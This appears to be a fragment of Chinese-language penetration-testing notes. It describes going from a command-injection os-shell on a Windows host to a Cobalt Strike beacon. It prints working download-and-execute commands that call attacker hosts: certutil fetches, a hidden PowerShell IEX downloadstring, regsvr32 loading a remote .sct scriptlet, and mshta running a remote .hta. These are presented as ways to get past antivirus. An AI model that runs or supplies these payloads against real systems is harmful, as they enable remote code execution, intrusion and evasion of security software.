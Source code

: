 在`os-shell`中，执行：`nslookup xxxxx.net`，burp看回显即可。

![](media/2019-07-19-14-11-13.png)

DNS能出，接下来看TCP报文...

这里我使用`certutil`、`bitsadmin`命令来测试，但是么有截图...

```
$ python3 -m http.server
```

```
os-shell>certutil -urlcache -split -f http://xxx:8000/
```

收到相应的请求后，基本上稳妥了，可以采用`reverse_tcp`的方案，用powershell反弹一个beacon到cobalt strike上。

## Regsvr32妙用

测试的过程中，并不顺利，后来我发现它有反病毒软件...

尝试了以下方法：

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/a22'))"

regsvr32 /s /n /u /i:http://x.x.0.x:8080/zfgJrh6V.sct scrobj.dll

mshta http://xxx.xx.xx.xx/1.hta
```

然后我发现msf `exploit/multi/script/web_delivery`生成的地址，都会在底层调用一层`powershell`

![](media/2019-07-19-14-45-14.png)

